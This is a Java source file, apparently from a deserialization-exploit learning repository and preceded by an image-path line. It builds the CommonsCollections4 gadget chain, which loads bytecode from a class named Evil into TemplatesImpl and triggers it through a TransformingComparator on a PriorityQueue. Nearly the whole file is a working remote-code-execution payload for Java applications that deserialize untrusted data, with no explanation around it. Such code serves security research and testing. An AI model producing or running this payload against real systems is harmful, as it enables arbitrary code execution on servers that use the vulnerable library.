 ```java
package com.example.CommonsCollections4;

import com.example.Evil;
import com.example.Reflection;
import com.example.Serialization;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import javax.xml.transform.Templates;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CommonsCollections4 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
        Reflection.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{code});
        Reflection.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesImpl})
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Comparator comparator = new TransformingComparator(transformerChain);

        PriorityQueue priorityQueue = new PriorityQueue(2, comparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(priorityQueue);

    }
}
```